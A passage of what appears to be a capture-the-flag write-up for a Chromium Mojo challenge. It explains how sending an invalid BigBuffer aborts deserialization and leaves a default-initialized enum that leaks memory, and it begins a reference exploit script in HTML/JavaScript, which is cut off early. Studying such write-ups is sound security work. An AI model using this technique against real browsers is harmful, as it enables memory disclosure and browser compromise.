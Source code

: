 For completeness, here is the definition of `DesertType` in `desert.mojom-shared.h`. 

```
enum class DesertType : int32_t {

  DESOLATE = 4919,

  EMPTY = 29489,
  kMinValue = 4919,
  kMaxValue = 29489,
};
```

Note that Mojo deserialization also validates (prior to deserialization) the Enum as a known value, unless the Enum is marked as [\[Extensible\]](https://chromium.googlesource.com/chromium/src/+/HEAD/mojo/public/tools/bindings/README.md#attributes)

```
  static bool IsKnownValue(int32_t value) {
    switch (value) {
      case 4919:
      case 29489:
        return true;
    }
    return false;
  }
```

Otherwise, we would be able to pass an unknown value to the interface directly and the challenge would be trivial. 
## Summary

This challenge asks the question: what happens when we silence Mojo deserialization code errors?

The intended solution involves sending an invalid `BigBuffer` to abort deserialization, default-initializing the `DesertType` enum which results in an infoleak. 

From my discussion with competitors who solved this challenge, I don't believe there were any alternate solutions. 
## Solve Script

This is the reference solution: 

```html
<script src="/mojojs/mojo_bindings.js"></script>
<script src="/mojojs/gen/third_party/blink/public/mojom/desert.mojom.js"></script>
<script>
  const log = msg => {
    fetch("/log?log=" + encodeURIComponent(msg));
  }

  const sleep = ms => new Promise(res => setTimeout(res, ms));

  window.onerror = e => log(e);

  (async () => {
  try{

  const IS_EASY = false;
  const easy_offset = IS_EASY ? 100: 0;

  const ptrs = [];

  for (let i = 0; i < easy_offset + 2; i++) {
    const ptr = new blink.mojom.OzymandiasPtr();
    Mojo.bindInterface(blink.mojom.Ozymandias.name, mojo.makeRequest(ptr).handle);
```